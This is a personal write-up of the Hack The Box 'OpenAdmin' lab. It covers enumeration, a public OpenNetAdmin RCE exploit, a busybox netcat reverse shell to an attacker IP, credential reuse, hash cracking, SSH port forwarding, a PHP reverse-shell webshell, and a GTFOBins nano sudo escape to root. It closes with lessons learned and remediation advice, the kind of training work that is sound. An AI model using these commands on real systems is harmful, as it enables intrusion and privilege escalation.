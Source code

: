 ```yaml
---
layout: writeup
title: OpenAdmin - HackTheBox
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the OpenAdmin Box from HackTheBox
image: # /assets/images/OpenAdmin/OpenAdmin.png
fig-caption: # Add figcaption (optional)
tags: [LainKusanagi, Linux]
---
```


Today I'm doing a writeup for a [Hack The Box](https://app.hackthebox.com/profile/2013658) box from LainKusanagi’s [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). It is called OpenAdmin, and it is rated Easy by HackTheBox. As usual, we get started with an nmap scan. I'm using my own [custom script](https://github.com/pentestpop/verybasicenum/blob/main/vbnmap.sh) for this which (gives more detail but) shows these open ports:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Looks like we're gonna be dealing with a web app. I go check it out in browser, but I get the Ubuntu Default Page, so it's time for `feroxbuster`.

![OpenAdmin2.png](/assets/images/OpenAdmin/OpenAdmin2.png){: .responsive-image}

After we scan the IP, it looks like there are essentially three directories which act as three different sites - `/music`, `/artwork`, and `/sierra`. 

![OpenAdmin3.png](/assets/images/OpenAdmin/OpenAdmin3.png){: .responsive-image}

They are look like static sites, so it may take some time to poke around. Eventually I click around on the websites and check the Login button in the top right corner of `/music`, and it links to `http://10.10.10.171/ona/ona`.

![OpenAdmin4.png](/assets/images/OpenAdmin/OpenAdmin4.png){: .responsive-image}I note the tab says "OpenNetAdmin", which tracks with the name of the box and is likely what ona stands for. I check exploit-db and find an [RCE](https://www.exploit-db.com/exploits/47691), but I can't get it working. Fortunately the go-getters over at [github dot com](https://github.com/amriunix/ona-rce) have another one cooked up so I clone it to my working directory, and we're off. I check the documentation, run `python3 ona-rce.py exploit http://10.10.10.171/ona` and it shows a shell. I test it with `whoami`, and it responds, so I feed it the busybox shell (`busybox nc 10.10.14.2 445 -e /bin/bash`) to get a proper shell. 

I start looking around, running the usual commands. I see this writeable directory: `/var/www/html/marga/.git`, but we don't have git, and it looks like there's nothing interesting in there. Apparently it was just another site. I notice some interesting privileges for joanna, so hopefully I can get to that user. I see that the machine may be vulnerable to `PwnKit`, though I try to avoid that at first in case it's not the intended path. 

![OpenAdmin5.png](/assets/images/OpenAdmin/OpenAdmin5.png){: .responsive-image}
 
 It also looks like there are a couple of services listening only on localhost. 
 ![OpenAdmin6.png](/assets/images/OpenAdmin/OpenAdmin6.png){: .responsive-image}
![OpenAdmin7.png](/assets/images/OpenAdmin/OpenAdmin7.png){: .responsive-image}

Frankly I suspect the internal site is the way to go, because it just seems crazy that something like that would be set up for a lab and not be the intended path. `PwnKit` will have to wait. 

At this point, I had to take a break for the night, and when I came back OpenNetAdmin was no longer responding. I reverted. I even switch VPNs to another instance. Nothing. That's one of the downsides of HTB I guess, maybe I should have gone for the premium subscription or something because I need the ONA exploit to get back on the machine and can't progress. 

Eventually I get it working again, but ligolo crashed the machine every time, keeping me from forwarding the internal site to my machine to check out. At that point I decided to look around more throughly for a password or something, and I found database credentials: `ona_sys`:`n1nj4W4rri0R!`

![OpenAdmin8.png](/assets/images/OpenAdmin/OpenAdmin8.png){: .responsive-image}

I check out the mysql instance and find this info from the users table in the ona_default database:

![OpenAdmin9.png](/assets/images/OpenAdmin/OpenAdmin9.png){: .responsive-image}

NTH suggests they are MD5 hashes, and hashcat cracks them both as `test`. Not particularly encouraging. That's ok, I tried to `su jimmy`, and the `n1nj4W4rri0R!` password works. So we're moving on. I look around for a little bit, but I can't actually find anything I have new access to to help me find root or joanna's password. Fortunately, after crashing the lab machine again, I determine that I can ssh into it with jimmy. So that means I can perform local port forwarding. The syntax is `ssh -L 52846:127.0.0.1:52846 jimmy@10.10.10.171`. This means that I can use port 52846 on the localhost (127.0.0.1) to access port 52846 on the remote host (10.10.10.171), but I do need to enter jimmy's credentials to do so. After that, I just visit 127.0.0.0.1:52846 in the browser and see this login screen:

![OpenAdmin10.png](/assets/images/OpenAdmin/OpenAdmin10.png){: .responsive-image}

I notice that the tab says `Tutorialspoint.com`, and viewing the source code shows this:
![OpenAdmin11.png](/assets/images/OpenAdmin/OpenAdmin11.png){: .responsive-image}

I start feroxbuster in the background just in case, but it finds nothing of interest. Then I go back to `/var` and find that I now have access to the `/var/www/internal` folder, so I can learn more about the web page. 

![OpenAdmin12.png](/assets/images/OpenAdmin/OpenAdmin12.png){: .responsive-image}

There's nothing of note in logout, and main seems to be showing us joanna's ssh password, so the key is likely in index. 

![OpenAdmin13.png](/assets/images/OpenAdmin/OpenAdmin13.png){: .responsive-image}

Main seems to be giving us a sha512 password and the username of jimmy. So we just need to crack that, and we may be good to go. 

![OpenAdmin14.png](/assets/images/OpenAdmin/OpenAdmin14.png){: .responsive-image}

It cracks pretty quickly as `Revealed`. We enter jimmy:Revealed into the web page, and we do see joanna's id_rsa. 

![OpenAdmin15.png](/assets/images/OpenAdmin/OpenAdmin15.png){: .responsive-image}

But when I copy it, change the permissions (`chmod 600 joanna.id_rsa`), and try to use it, it requires a password. Interesting. Neither `ninja` nor `n1nj4W4rri0R!` works either. So I run `ssh2john joanna.id_rsa > joanna.hash` to get a new hash file, and then run `john joanna.hash` on it. This doesn't work initially, because it doesn't work on john's default wordlist. I change it to rockyou.txt, and we're off. 

![OpenAdmin16.png](/assets/images/OpenAdmin/OpenAdmin16.png){: .responsive-image}

The other option is to simply put a webshell in the /var/www/internal directory and call it from the browser. We can use the classic [Ivan Sincek](https://github.com/ivan-sincek/php-reverse-shell) reverse shell for this. I transfer it over, call it from the browser, and voila. 

![OpenAdmin17.png](/assets/images/OpenAdmin/OpenAdmin17.png){: .responsive-image}

Either way, we get the joanna shell. For whatever reason, when I run `sudo -l` as `joanna`, I get this error.

![OpenAdmin18.png](/assets/images/OpenAdmin/OpenAdmin18.png){: .responsive-image}

But we know from running it previously as `www-data`, we can run nano on /opt/priv as joanna. When I try to run `sudo /bin/nano /opt/priv`, I get the error:

![OpenAdmin19.png](/assets/images/OpenAdmin/OpenAdmin19.png){: .responsive-image}

Interesting. That seemed for sure the path forward. I don't see any new interesting SUID binaries or anything else when I re-run lse. So I get kinda stuck here. 

So then I reset the machine, ssh as joanna again, run `sudo l`, see that I can again run `sudo /bin/nano /opt/priv` and check [GTFOBins](https://gtfobins.github.io/gtfobins/nano/) to find that I can get a root shell by running: 
`sudo nano`
`^R^X`
`reset; sh 1>&0 2>&0`

And boom, I get a root shell. 

![OpenAdmin20.png](/assets/images/OpenAdmin/OpenAdmin20.png){: .responsive-image}

### Lessons Learned
This box took me a ton of time, but most of it was because the box kept crashing. The steps involved for the most part were relatively simple. The things that stuck out as not some much learned as reinforced are:
- Make sure to check every reasonable file for credentials. It took me a while to find the `ona_sys`:`n1nj4W4rri0R!` creds in `/opt/ona/www/local/config/database_settings.inc.php`. To be fair, there were a ton of config-y type files on this machine, but there was a lot of time spent on this one. 
- Use rockyou.txt rather than john's default wordlist. Most labs with like this can be cracked with rockyou, but I missed it with john's default. In real life, might need more targeted lists, but most of the labs, stick with rockyou. 
- I rarely use ssh for port forwarding. Usually I go with ligolo, but that crashed the machine, so nice to get some practice with ssh port forwarding. 

### Remediation Steps
- Patch the version of OpenNetAdmin. 
- Remove plaintext credentials from the database_settings.inc.php file. At the very minimum, it should be protected only to the users who need to access it. 
- Avoid the re-use of credentials for the ona user and jimmy. 
- If possible configure the firewall to prevent port forwarding. 
- Not sure what to say about the internal website as it is clearly CTF-y, but obviously don't put plaintext ssh keys up on a website, even internally. 
- Remove the ability of joanna to run `sudo nano /opt/priv`. That also is pretty CTF-y as that file was clearly not in use, but there it is.